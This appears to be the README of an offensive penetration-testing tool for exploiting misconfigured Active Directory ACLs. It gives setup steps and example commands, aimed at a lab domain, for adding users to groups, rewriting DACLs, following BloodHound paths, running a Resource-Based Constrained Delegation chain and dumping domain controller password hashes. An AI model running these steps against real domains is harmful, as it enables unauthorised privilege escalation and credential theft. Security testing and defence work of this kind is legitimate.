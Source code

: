 # autoaclpwn
This is a tool for exploiting misconfigured ACLs in Active Directory. You can manually add users to a group, export a graph from BloodHound and use it to add the user to several groups, or import a BloodHound graph to perform an entire Resource-Based Constrained Delegation attack chain, up to and including dumping secrets.

## Setup
```
git clone https://github.com/jhicks_r7/autoaclpwn
pip3 install -r requirements.txt
python3 autoaclpwn.py -h
```

## Usage
The following arguments are required for every mode autoaclpwn.py can run in:

```
-u USER, --user USER  username to add/modify group
-p PASSWORD, --password PASSWORD
                        The user's password
-d DOMAIN, --domain DOMAIN
                        Target domain name
-dc-ip DC IP          Domain Controller IP address

```

### Manually adding a user to a group or modifying DACLs

If you would like to manually add a user to a group, modify a DACL, or both, you can use the following flags:
```
--add-member          Add the member to the group
--modify-dacl         Modify the DACL to add addmember permission
-g GROUP, --group GROUP
                        Target group name. Required if not using BloodHound file
```

Example command:

```
python3 autoaclpwn.py -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -g 'Cool Person Group' --add-member --modify-dacl
```

### Automatically adding a user to/modifying DACLs of multiple groups
If you have an exported BloodHound graph, in JSON format, you can utilize the -b flag to add the member to a series of groups.

__A note on BloodHound JSON graphs__: For best results, ensure that your graph starts with the user that you have credentials for and want to modify and ends with either the last group you would like them to be added to, or a computer that you wish to perform additional exploitation on. The easiest way to get this is to use BloodHound's path tool and export the resulting path. Additionally, the graph should have a __single__ path of edges from the user to the final target. Having multiple paths may or may not produce undesirable results.

As of this time, autoaclpwn supports the following BloodHound edges:
* MemberOf
* GenericWrite
* GenericAll
* AddMember
* AddSelf
* WriteDacl

Example command:
```
python3 autoaclpwn -u username -p 'P@ssword' -d hackerlab.local -dc-ip 172.16.1.10 -b graph.json
```

### Performing additional Resourced-Based Constrained Delegation steps
In addition to using a BloodHound graph, autoaclpwn can perform the following steps if your target ends in a computer that you will have gained GenericWrite or some functionally equivalant permissions, you can invoke various impacket commands to automatically perform the attack:

```
--add-computer        Add a computer to the account
--computer-name COMPUTER NAME
                        The name of the computer to add. Use with --add-computer
--computer-pass COMPUTER PASS
                        The password for the computer to be added. Use with --add-computer
--rbcd                Perform Resource-Based Constrained Delegation attack against the target. Requires --add-computer
--getst               Runs impacket's getST.py. Requires --add-computer and --rbcd
--impersonate USER TO IMPERSONATE
                        User to impersonate, used with --getST
--secretsdump         Dump secrets from a Domain Controller. Uses secretsdump.py
--fullauto            DO ALL THE THINGS. Probably dont do this in real life. Should also only target a DC at the moment
```

In addition, if using getST you must provide --impersonate, and can optionally provide an spn service:
```
 -spn-service SERVICE  The service to use as the service portion of the SPN for getST. Default: cifs
```

If using secretsdump, you can provide options for what you would like to dump:

```
-just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos Keys)
-just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
-just-dc-user USER    Extract only NTDS.DIT data for the user specified                                                                             
```

__Warning__: at the moment, if your graph ends in a group and not a computer, invoking these options will provide a warning, but allow you to attempt it anyways (it won't work). If your user account does not have the proper permissions to perform the options you selected, the script will still try and run them. It should just fail, but dont' hold me accountable if it does something weird.

## References/Sources
aclpwn:   https://github.com/fox-it/aclpwn.py
rbcd.py:  https://github.com/tothi/rbcd-attack/
impacket: https://github.com/SecureAuthCorp/impacket     
